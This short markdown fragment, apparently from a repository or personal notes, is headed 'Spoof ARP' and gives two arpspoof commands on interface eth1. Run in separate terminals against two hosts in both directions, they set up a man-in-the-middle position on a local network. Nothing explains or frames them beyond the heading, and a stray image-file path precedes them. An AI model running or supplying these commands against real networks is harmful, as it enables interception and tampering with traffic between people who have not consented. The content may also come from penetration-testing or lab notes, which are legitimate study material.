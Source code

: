 # Spoof ARP
```bash
# In Terminal 1
arpspoof -i eth1 -t <Host 1> <Host 2>
# In Terminal 2
arpspoof -i eth1 -t <Host 2> <Host1>
```